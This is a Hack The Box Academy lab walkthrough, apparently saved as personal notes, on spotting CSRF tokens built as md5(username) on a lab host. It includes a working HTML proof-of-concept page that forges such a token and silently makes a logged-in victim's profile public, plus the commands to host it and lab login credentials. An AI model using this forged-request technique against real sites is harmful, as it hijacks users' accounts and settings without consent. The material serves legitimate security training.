 ```yaml
---
sticker: emoji//1f512
---
```

Often, web applications do not employ very secure or robust token generation algorithms. An example is an application that generates CSRF tokens as follows (pseudocode): `md5(username)`.

How can we tell if that is the case? We can register an account, look into the requests to identify a CSRF token, and then check if the MD5 hash of the username is equal to the CSRF token's value.

Let us see this in action!

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

- Email: goldenpeacock467
- Password: topcat

Open Web Developer Tools (Shift+Ctrl+I in the case of Firefox) and focus on the _Network_ tab.

Back to the user's profile, press _Change Visibility_ and then _Make Public_.

You should see a request similar to the one below. Note the value of the CSRF token.

![image](https://academy.hackthebox.com/storage/modules/153/49.png)

Execute the below command to calculate the MD5 hash of the string "goldenpeacock467" (the username).

```shell-session
smoothment@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

You will notice that the resulting hash is the same as the CSRF value! This means that the CSRF token is generated by MD5-hashing the username.

When assessing how robust a CSRF token generation mechanism is, make sure you spend a small amount of time trying to come up with the CSRF token generation mechanism. It can be as easy as `md5(username)`, `sha1(username)`, `md5(current date + username)` etc. Please note that you should not spend much time on this, but it is worth a shot.

Now that we know how the CSRF token for this action is generated let us see how we can attack other users through CSRF.

Find below the malicious page. Save it as `press_start_2_win.html`


```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```

For your malicious page to have MD5-hashing functionality, save the below as `md5.min.js` and place it in the directory where the malicious page resides.

```javascript
!function(n){"use strict";function d(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function f(n,t,r,e,o,u){return d((u=d(d(t,n),d(e,u)))<<o|u>>>32-o,r)}function l(n,t,r,e,o,u,c){return f(t&r|~t&e,n,t,o,u,c)}function g(n,t,r,e,o,u,c){return f(t&e|r&~e,n,t,o,u,c)}function v(n,t,r,e,o,u,c){return f(t^r^e,n,t,o,u,c)}function m(n,t,r,e,o,u,c){return f(r^(t|~e),n,t,o,u,c)}function c(n,t){var r,e,o,u;n[t>>5]|=128<<t%32,n[14+(t+64>>>9<<4)]=t;for(var c=1732584193,f=-271733879,i=-1732584194,a=271733878,h=0;h<n.length;h+=16)c=l(r=c,e=f,o=i,u=a,n[h],7,-680876936),a=l(a,c,f,i,n[h+1],12,-389564586),i=l(i,a,c,f,n[h+2],17,606105819),f=l(f,i,a,c,n[h+3],22,-1044525330),c=l(c,f,i,a,n[h+4],7,-176418897),a=l(a,c,f,i,n[h+5],12,1200080426),i=l(i,a,c,f,n[h+6],17,-1473231341),f=l(f,i,a,c,n[h+7],22,-45705983),c=l(c,f,i,a,n[h+8],7,1770035416),a=l(a,c,f,i,n[h+9],12,-1958414417),i=l(i,a,c,f,n[h+10],17,-42063),f=l(f,i,a,c,n[h+11],22,-1990404162),c=l(c,f,i,a,n[h+12],7,1804603682),a=l(a,c,f,i,n[h+13],12,-40341101),i=l(i,a,c,f,n[h+14],17,-1502002290),c=g(c,f=l(f,i,a,c,n[h+15],22,1236535329),i,a,n[h+1],5,-165796510),a=g(a,c,f,i,n[h+6],9,-1069501632),i=g(i,a,c,f,n[h+11],14,643717713),f=g(f,i,a,c,n[h],20,-373897302),c=g(c,f,i,a,n[h+5],5,-701558691),a=g(a,c,f,i,n[h+10],9,38016083),i=g(i,a,c,f,n[h+15],14,-660478335),f=g(f,i,a,c,n[h+4],20,-405537848),c=g(c,f,i,a,n[h+9],5,568446438),a=g(a,c,f,i,n[h+14],9,-1019803690),i=g(i,a,c,f,n[h+3],14,-187363961),f=g(f,i,a,c,n[h+8],20,1163531501),c=g(c,f,i,a,n[h+13],5,-1444681467),a=g(a,c,f,i,n[h+2],9,-51403784),i=g(i,a,c,f,n[h+7],14,1735328473),c=v(c,f=g(f,i,a,c,n[h+12],20,-1926607734),i,a,n[h+5],4,-378558),a=v(a,c,f,i,n[h+8],11,-2022574463),i=v(i,a,c,f,n[h+11],16,1839030562),f=v(f,i,a,c,n[h+14],23,-35309556),c=v(c,f,i,a,n[h+1],4,-1530992060),a=v(a,c,f,i,n[h+4],11,1272893353),i=v(i,a,c,f,n[h+7],16,-155497632),f=v(f,i,a,c,n[h+10],23,-1094730640),c=v(c,f,i,a,n[h+13],4,681279174),a=v(a,c,f,i,n[h],11,-358537222),i=v(i,a,c,f,n[h+3],16,-722521979),f=v(f,i,a,c,n[h+6],23,76029189),c=v(c,f,i,a,n[h+9],4,-640364487),a=v(a,c,f,i,n[h+12],11,-421815835),i=v(i,a,c,f,n[h+15],16,530742520),c=m(c,f=v(f,i,a,c,n[h+2],23,-995338651),i,a,n[h],6,-198630844),a=m(a,c,f,i,n[h+7],10,1126891415),i=m(i,a,c,f,n[h+14],15,-1416354905),f=m(f,i,a,c,n[h+5],21,-57434055),c=m(c,f,i,a,n[h+12],6,1700485571),a=m(a,c,f,i,n[h+3],10,-1894986606),i=m(i,a,c,f,n[h+10],15,-1051523),f=m(f,i,a,c,n[h+1],21,-2054922799),c=m(c,f,i,a,n[h+8],6,1873313359),a=m(a,c,f,i,n[h+15],10,-30611744),i=m(i,a,c,f,n[h+6],15,-1560198380),f=m(f,i,a,c,n[h+13],21,1309151649),c=m(c,f,i,a,n[h+4],6,-145523070),a=m(a,c,f,i,n[h+11],10,-1120210379),i=m(i,a,c,f,n[h+2],15,718787259),f=m(f,i,a,c,n[h+9],21,-343485551),c=d(c,r),f=d(f,e),i=d(i,o),a=d(a,u);return[c,f,i,a]}function i(n){for(var t="",r=32*n.length,e=0;e<r;e+=8)t+=String.fromCharCode(n[e>>5]>>>e%32&255);return t}function a(n){var t=[];for(t[(n.length>>2)-1]=void 0,e=0;e<t.length;e+=1)t[e]=0;for(var r=8*n.length,e=0;e<r;e+=8)t[e>>5]|=(255&n.charCodeAt(e/8))<<e%32;return t}function e(n){for(var t,r="0123456789abcdef",e="",o=0;o<n.length;o+=1)t=n.charCodeAt(o),e+=r.charAt(t>>>4&15)+r.charAt(15&t);return e}function r(n){return unescape(encodeURIComponent(n))}function o(n){return i(c(a(n=r(n)),8*n.length))}function u(n,t){return function(n,t){var r,e=a(n),o=[],u=[];for(o[15]=u[15]=void 0,16<e.length&&(e=c(e,8*n.length)),r=0;r<16;r+=1)o[r]=909522486^e[r],u[r]=1549556828^e[r];return t=c(o.concat(a(t)),512+8*t.length),i(c(u.concat(t),640))}(r(n),r(t))}function t(n,t,r){return t?r?u(t,n):e(u(t,n)):r?o(n):e(o(n))}"function"==typeof define&&define.amd?define(function(){return t}):"object"==typeof module&&module.exports?module.exports=t:n.md5=t}(this);
//# sourceMappingURL=md5.min.js.map
```

We can serve the page and JavaScript code above from our attacking machine as follows.


```shell-session
smoothment@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Open a `New Private Window`, navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

- Email: crazygorilla983
- Password: pisces

This account will play the role of the victim. As you can see, Ela Stienen's profile is not public. Let us try to make it public through a CSRF attack.

While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/press_start_2_win.html`.

![image](https://academy.hackthebox.com/storage/modules/153/60.png)

Now press "Start!". You will notice that when Ela Stienen presses "Start," her profile will become public!

![image](https://academy.hackthebox.com/storage/modules/153/61.png)

The following section will focus on some possible CSRF protection bypasses that you should try during web application penetration tests or bug bounty hunting.

# Question
---

![](Pasted%20image%2020250219130712.png)


